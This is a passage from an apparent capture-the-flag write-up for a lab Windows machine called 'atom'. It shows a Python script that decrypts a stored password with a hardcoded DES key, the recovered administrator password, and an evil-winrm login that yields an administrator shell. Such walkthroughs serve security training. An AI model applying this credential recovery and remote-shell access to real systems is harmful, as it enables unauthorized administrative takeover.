 ```python
import sys
from des import *
import base64

hash = sys.argv[1]
hash = base64.b64decode(hash.encode('utf-8'))
key = DesKey(b"7ly6UznJ")
print(key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
```
Run:
```bash
$ python3 modified_exploit.py Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi
kidvscat_admin_@123
```
--- 
Get Administrator with `evil-winrm`:
```bash
$ evil-winrm -i 10.10.10.237 -u administrator -p 'kidvscat_admin_@123'

Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
atom\administrator
```
